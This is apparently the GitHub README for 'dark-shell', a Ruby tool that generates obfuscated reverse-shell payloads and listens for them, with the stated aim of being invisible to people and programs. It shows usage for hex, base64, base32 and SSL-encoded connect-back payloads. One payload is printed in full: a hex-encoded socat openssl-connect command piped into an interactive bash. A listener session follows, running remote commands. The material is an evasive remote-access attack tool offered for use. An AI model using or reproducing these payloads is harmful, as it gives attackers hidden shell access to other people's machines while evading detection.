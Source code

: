 # dark-shell
Some shells which are invisible to humans or programs.

# Install

Just download the dark_shell.rb, and install some dependency.

```
gem install rex rex-socket base32
```

# Usage

Run script without parameter to get help info.

```
$ ruby dark_shell.rb


____             _         ____  _          _ _
|  _ \  __ _ _ __| | __    / ___|| |__   ___| | |
| | | |/ _` | '__| |/ /    \___ \| '_ \ / _ \ | |
| |_| | (_| | |  |   <      ___) | | | |  __/ | |
|____/ \__,_|_|  |_|\_\    |____/|_| |_|\___|_|_|


See more: https://github.com/Green-m/dark-shell

Dark shell listen server.

Usage:
  ruby dark_shell.rb <action> <ipaddress> <port> <type>
Action: gen, listen, gencode
  gen:      generate payload to run.
  gencode:  generate payload(encoded) to run.
  listen:   listen as a server.

Type: hex, ssl, base64, base32


Example:
  ruby dark_shell.rb listen 127.0.0.1 4444 hex
  ruby dark_shell.rb listen 0.0.0.0 4444
  ruby dark_shell.rb listen
  ruby dark_shell.rb gencode 8.8.8.8 1337 ssl
  ruby dark_shell.rb gen 8.8.8.8 4444 base64
  ruby dark_shell.rb gen
```


Get some connect back payloads.

```
ruby dark_shell.rb gencode 127.0.0.1 1337 ssl
```

And the we get a lot of payloads, pick one, for instance:

```
sh -c '{echo,736f63617420657865633a276261736827206f70656e73736c2d636f6e6e6563743a3132372e302e302e313a313333372c7665726966793d30}|{xxd,-p,-r}|{bash,-i}'
```

Start listening

```
$ ruby dark_shell.rb listen 127.0.0.1 1337 ssl


____             _         ____  _          _ _
|  _ \  __ _ _ __| | __    / ___|| |__   ___| | |
| | | |/ _` | '__| |/ /    \___ \| '_ \ / _ \ | |
| |_| | (_| | |  |   <      ___) | | | |  __/ | |
|____/ \__,_|_|  |_|\_\    |____/|_| |_|\___|_|_|


See more: https://github.com/Green-m/dark-shell

Type: 'SSL'
Starting listen 127.0.0.1:1337
Received from 127.0.0.1:57323
Input is ready.
pwd
>/private/tmp
whoami
>green


```
